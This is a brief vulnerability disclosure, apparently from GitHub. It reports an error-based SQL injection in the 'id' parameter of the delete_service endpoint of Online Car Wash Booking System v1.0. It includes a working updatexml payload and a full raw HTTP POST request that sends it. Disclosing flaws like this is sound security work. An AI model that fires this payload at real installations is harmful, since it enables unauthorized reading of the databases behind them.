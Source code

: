 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/classes/Master.php?f=delete_service

Vulnerability location: /ocwbs/classes/Master.php?f=delete_service, id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id


```sql
POST /ocwbs/classes/Master.php?f=delete_service HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ocwbs/admin/?page=services
Content-Length: 65
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/169301071-2e9d3cb6-4c0b-4883-9163-ef06ba5cb154.png)

